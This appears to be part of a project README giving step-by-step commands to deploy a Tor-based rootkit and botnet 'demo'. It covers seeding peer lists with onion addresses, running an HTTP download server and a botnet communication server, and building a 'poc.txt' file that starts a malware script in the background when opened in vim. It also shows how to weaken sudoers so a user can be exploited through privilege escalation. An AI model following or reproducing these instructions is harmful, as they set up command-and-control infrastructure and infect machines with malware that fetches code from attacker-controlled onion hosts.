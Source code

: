 1. Copy `demo/rootkit_demo/` into the folder `/etc/systemd/system/` 
2. Fill peer lists with initial data (seed name, seed download onion and seed communication onion)
    1. `echo seed0 $(sudo cat /var/lib/tor/hidden_download/hostname) $(sudo cat /var/lib/tor/hidden_communication/hostname) | sudo tee -a /etc/systemd/system/rootkit_demo/private/full_peer_list` 
    2. `echo seed0 $(sudo cat /var/lib/tor/hidden_download/hostname) $(sudo cat /var/lib/tor/hidden_communication/hostname) | sudo tee -a /etc/systemd/system/rootkit_demo/public/peer_list`
3. `sudo chown "user":"group" /etc/systemd/system/rootkit_demo -R` where user and group must be changed according to the user you are using on the machine.
4. `cd /etc/systemd/system/rootkit_demo/public`
5. `python3 -m http.server 40000`
6. In a new terminal, `cd /etc/systemd/system/rootkit_demo/public/source`
7. `sudo python3 server.py`


![seed_rootkit](visual_media/seed_rootkit.png)

If all was done correct, you should have up and running and http server and the botnet communication server.
This machine can be seen as the first victim of the botnet.

![servers](visual_media/servers.png)

### Set up the victim machine

To set up the victim machine we will just need to generate the file text that will
execute the malicious code, and open when we decide to simulate an infection.

#### Generate the text file to infect the victim

1. `cd scripts`
2. Modify the file called onion directions in the `exploit` file for the onion directions of your seed machine. You can execute `$(sudo cat /var/lib/tor/hidden_download/hostname) $(sudo cat /var/lib/tor/hidden_communication/hostname)` in the seed machine to obtain the onions directions.
    1. `sed -i 's/kdq2tg4jedd5tqxs.onion/new download onion/g' exploit`
    2. `sed -i 's/57yvvr2pfb46zull.onion/new communication onion/g' exploit`
3. `bash transform.sh exploit`
4. Inside scripts, a file called `poc.txt` will now appear. Save it, we will need it later

#### Set up user account

1. `sudo visudo` and add `"username" ALL=(ALL,!root) NOPASSWD: ALL
2. Remove user from sudo group, if needed. `sudo deluser "username" sudo`
3. Reboot

We have a user prepared to exploit through privilege escalation.

#### Simulate a victim infection

1. Copy `poc.txt` to the victim machine
2. `vim poc.txt`

This will open a file and start a python script in the background that will install all the required libraries, set up TOR and start the download and communication for server in the victim machine. You can use `ps aux | grep malware` to see if the process is up and running.
